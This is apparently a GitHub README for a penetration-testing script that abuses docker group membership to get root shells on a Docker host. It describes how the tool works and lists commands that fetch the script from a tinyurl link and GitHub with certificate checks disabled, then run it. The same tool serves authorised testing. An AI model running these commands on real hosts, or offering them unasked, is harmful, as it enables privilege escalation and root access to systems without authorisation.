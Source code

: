 # dockergroupabuse

This interactive script allows you to abuse the `docker` group to get root shells from minimal images that are already stored locally on the Docker host system.

The script will allow you to choose from any local image currently installed.

If there are no images installed, and the host has Internet access to the DockerHub repository, it will pull [lphxl/kaliroot](https://hub.docker.com/r/lphxl/kaliroot),
which gives you a root level chroot shell on the system, and when exiting the chroot, you have access to all Kali Linux repos and tools, while the host is accessible at `/host`.

If it can't connect to DockerHub, it will try to pull a number of popular base images from the registry that the docker daemon is currently attached to, and will create
a rootshell image from that image.

The script cleans up after itself by deleting the `Dockerfile` that it creates on the fly, as well as removing the container and image as soon as it exits the shell.

If necessary, you can change this functionality by simply editing the [`rootshell.sh`](rootshell.sh) script itself.

## Usage

Copy the contents of [`rootshell.sh`](rootshell.sh) to the clipboard and paste into `rootshell.sh` on the remote Docker host system.

Or if you have Internet access on the remote host, run one of the following commands:

- `curl -skLO https://tinyurl.com/rootshell`
- `wget --no-check-certificate https://tinyurl.com/rootshell`
- `curl -skLO https://raw.githubusercontent.com/phx/dockergroupabuse/master/rootshell.sh`
- `wget --no-check-certificate https://raw.githubusercontent.com/phx/dockergroupabuse/master/rootshell.sh`

### Remote Docker Host:

```
chmod +x rootshell.sh
./rootshell.sh
```

Feel free to modify [`rootshell.sh`](rootshell.sh) as necessary, but this script has worked with all images and systems I have tested.

### About `sh` vs `bash`

I have defaulted to using `sh` instead of `bash` in the commands in order to be cross-compatible with Alpine-based minimal images and such.  Feel free to call `bash` from `sh` after getting the shell.
